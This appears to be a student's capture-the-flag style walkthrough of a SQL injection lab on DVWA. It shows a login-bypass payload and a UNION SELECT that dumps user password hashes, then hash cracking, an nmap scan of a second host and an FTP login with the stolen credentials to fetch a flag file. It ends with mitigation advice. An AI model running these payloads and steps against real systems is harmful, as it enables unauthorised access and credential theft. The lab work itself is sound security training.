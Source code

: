 ```yaml
---
title: "SQL Injection Lab Walkthrough (Capstone)"
date: 2025-08-24
categories: [Labs, Web Security]
tags: [sql-injection, authentication-bypass, union-select, database, password-cracking]
excerpt: "In this capstone lab, I exploited a SQL injection vulnerability to enumerate users, crack a password hash, and retrieve a hidden flag file."
---
```


## Objective
The goal of this lab was to exploit a SQL injection vulnerability on a target web application, retrieve user account information, crack a password hash, and use the compromised credentials to access a hidden flag file.

---

## Environment & Scope
- **Target IP:** `10.5.5.12` (DVWA web app)  
- **Secondary target:** `192.168.0.10` (Bob Smith’s host)  
- **Tools used:** Browser (DVWA), `nmap`, `ftp`, CrackStation  
- **Focus:** Exploiting SQL injection and lateral movement

---

## Step 1 — Authentication Bypass & SQL Injection
Testing the login form with a classic injection payload:

```sql
' OR '1' = '1' #
```

This bypassed authentication and confirmed SQL injection.  

![SQLi login bypass](/assets/images/labs/sql-injection/SQLi-1.png)

---

## Step 2 — Extracting User Data
To enumerate user accounts and password hashes:

```sql
' UNION SELECT user, password FROM users #
```

This revealed multiple user accounts, including **Bob Smith** with a password hash.  

![Union select results](/assets/images/labs/sql-injection/SQL-passwordhashes.png)

---

## Step 3 — Cracking the Password Hash
I copied Bob’s hash and cracked it using [CrackStation](https://crackstation.net/).  

- **Recovered password:** `password`  

![Crackstation results](/assets/images/labs/sql-injection/crackedhash.png)

---

## Step 4 — Host Enumeration
Next, I targeted Bob Smith’s machine (`192.168.0.10`) and scanned for open services:

```bash
nmap -sS -sV -p- 192.168.0.10
```

This revealed an **FTP service running on port 2121**.  

![Nmap scan results](/assets/images/labs/sql-injection/nmapfullscan.png)

---

## Step 5 — Accessing the FTP Server
Using Bob’s credentials, I logged in via FTP:

```bash
ftp 192.168.0.10 2121
```

I located a file named `my_passwords.txt` in his home directory.  

![FTP session](/assets/images/labs/sql-injection/ftploginport2121.png)

---

## Step 6 — Retrieving and Reading the Flag
Downloaded the file:

```bash
get my_passwords.txt
```

Then displayed its contents:

```bash
cat my_passwords.txt
```

The file contained the **Challenge  code**.  

![Flag file contents](/assets/images/labs/sql-injection/flagfile.png)

---

## Mitigation
To protect against SQL injection and credential compromise:
- **Parameterized queries** (prepared statements with bound variables).  
- **Input validation & sanitization** (reject unsafe characters, enforce whitelists).  
- **Error handling** (suppress SQL errors from users).  
- **Strong password storage** (salted & hashed with modern algorithms).  
- **Least privilege** (restrict database and file permissions).  

---

## Conclusion
This lab demonstrated how SQL injection can be escalated to full credential compromise and system access. Proper coding practices, secure password handling, and strict access controls are essential to prevent such attacks.
